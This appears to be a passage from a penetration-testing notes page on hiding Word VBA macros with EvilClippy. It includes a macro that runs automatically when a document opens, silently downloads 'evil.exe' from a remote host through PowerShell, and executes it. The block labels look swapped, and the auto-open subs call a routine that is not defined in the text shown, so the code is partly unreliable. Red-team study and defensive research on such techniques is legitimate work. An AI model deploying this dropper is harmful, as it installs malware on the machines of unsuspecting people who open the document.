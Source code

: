 {% hint style="info" %}
After the macro is executed this way MS Word will decompile the P-code and put the VBA source code back into the `NewMacros` file, so it will reappear in the VBA editor as well.
{% endhint %}



### EvilClippy

* [https://github.com/outflanknl/EvilClippy](https://github.com/outflanknl/EvilClippy)

```
PS > .\EvilClippy.exe -s fakecode.vba macrofile.doc
```

{% code title="DownloadWaitExec.vba" %}
```vba
Sub Document_Open()
  Hello
End Sub

Sub AutoOpen()
  Hello
End Sub

Sub Hello()
  MsgBox ("Hello, World!")
End Sub
```
{% endcode %}




## VBA Macros

Wait till a malicious binary is downloaded with PowerShell and execute it:

{% code title="fakecode.vba" %}
```vba
Sub Document_Open()
  hShellcodeRunner
End Sub
Sub AutoOpen()
  hShellcodeRunner
End Sub
Sub DownloadWaitExec()
  Dim str As String
  str = "powershell (New-Object System.Net.WebClient).DownloadFile('http://10.10.13.37/evil.exe', 'evil.exe')"
  Shell str, vbHide
  Dim exePath As String
  exePath = ActiveDocument.Path + "\evil.exe"
  Wait (2)
  Shell exePath, vbHide
End Sub
Sub Wait(n As Long)
  Dim t As Date
  t = Now
  Do
    DoEvents
  Loop Until Now >= DateAdd("s", n, t)
End Sub
```
{% endcode %}
